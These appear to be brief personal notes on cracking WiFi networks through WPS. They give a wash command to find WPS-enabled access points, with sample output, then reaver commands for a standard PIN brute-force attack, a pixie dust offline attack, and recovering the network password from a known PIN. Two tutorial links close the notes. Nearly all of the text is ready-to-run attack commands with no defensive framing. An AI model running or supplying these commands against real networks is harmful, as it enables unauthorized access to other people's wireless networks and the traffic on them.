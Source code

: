 
#check for networks with wps available
wash -i wlan0mon

#OUTPUT

BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
AA:BB:CC:XX:YY:ZZ    1  -88  2.0  No   Broadcom  linksys


#ATTACKS TO RETRIEVE THE PIN

#standard attack
sudo reaver  -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv

#pixie dust offline attack - (-K 1)
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -K 1




#Getting a WiFi password with a known WPS pin in Reaver

sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -p 12345678






https://kalitut.com/wifi-attack-with-wps-using-reaver/
https://axcheron.github.io/hacking-wps-using-reaver-and-pixie-dust-attack/
